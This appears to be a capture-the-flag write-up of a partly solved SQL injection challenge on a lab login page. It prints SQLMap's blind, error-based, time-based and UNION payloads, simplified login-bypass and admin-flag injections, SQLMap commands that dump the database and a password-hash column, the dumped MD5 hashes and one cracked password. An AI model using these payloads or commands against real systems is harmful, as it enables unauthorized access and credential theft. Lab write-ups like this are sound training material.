 # Failed session
**_SQL Injection_** \
Difficulty: Medium

> **Note!** I didn't manage to complete this task entirely. However, I have decided to still include this partial solution as I did "collect most of the puzzles."

### 1. Use SQLMap to quickly find a working injection
```
Parameter: username (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: username=XRVo' RLIKE (SELECT (CASE WHEN (9110=9110) THEN 0x5852566f ELSE 0x28 END))-- LcKO&password=PxEl

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: username=XRVo' OR (SELECT 6847 FROM(SELECT COUNT(*),CONCAT(0x71626a6a71,(SELECT (ELT(6847=6847,1))),0x71767a6a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- kIJa&password=PxEl

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=XRVo' AND (SELECT 8814 FROM (SELECT(SLEEP(5)))oiEX)-- JDcP&password=PxEl

    Type: UNION query
    Title: MySQL UNION query (NULL) - 4 columns
    Payload: username=XRVo' UNION ALL SELECT NULL,CONCAT(0x71626a6a71,0x55424969544b72674f49587272736b4d4f696254617a5a41636e48416d547464545a4d62574f7951,0x71767a6a71),NULL,NULL#&password=PxEl
```

Out of these injections - the last one was the only actually working one.

### 2. Simplify and modify the injection
The injection above can be simplified to:
```
username=' UNION ALL SELECT NULL,"",NULL,NULL#&password=any
```

> The Password doesn't matter as thanks to the injection - it isn't even checked.

However, we aren't done yet.
We have only accessed the database,
and we don't have the administrator permissions that are essential to get the flag.
We can achieve that by modifying the last argument.

```
username=' UNION ALL SELECT NULL,"",NULL,1#&password=any
```

This modification lets me access another stage. However, now we need to provide the actual password.

### 3. Use the injection along with the SQLMap tool to dump everything
```sh
python3 sqlmap.py -u "http://container-manager.francecentral.cloudapp.azure.com:10144/login.php" --data="username=' UNION ALL SELECT NULL,"",NULL,1#&password=PxEl" --dump-all
```
After dumping everything and analyzing the output,
I found out that the database is called `db1` and has a table named `users`.

While trying to SQL to inject manually (without the usage of SQLMap),
I found out that one of the columns in that table is called `passwordMD5`.
It has been proven to exist by the MariaDB error.
The name clearly indicates that it likely contains the MD5 hashes of passwords.
Let's dump that column.

```sh
python3 sqlmap.py -u "http://container-manager.francecentral.cloudapp.azure.com:10144/confirm.php" --batch --forms --crawl=2 -D db1 -T users -C passwordMD5 --dump
```

Here's the result of that operation:

| passwordMD5                      |
|----------------------------------|
| 100d7565034f985c386a266347fcfa3c |
| 5386e5dec276ad172e097a035bd07544 |
| 6a8057f9e0743012e09b49ebc04a0a07 |
| e89434e8b72041db23cdec2df7a0d2fa |

### 4. Use an online MD5 cracker to check all the obtained hashes
Only one of the hashes could be cracked.
> 5386e5dec276ad172e097a035bd07544 -> **Applepie123**

### 5. What went wrong
The password itself wasn't enough since my username was invalid. At this point **I couldn't progress further**.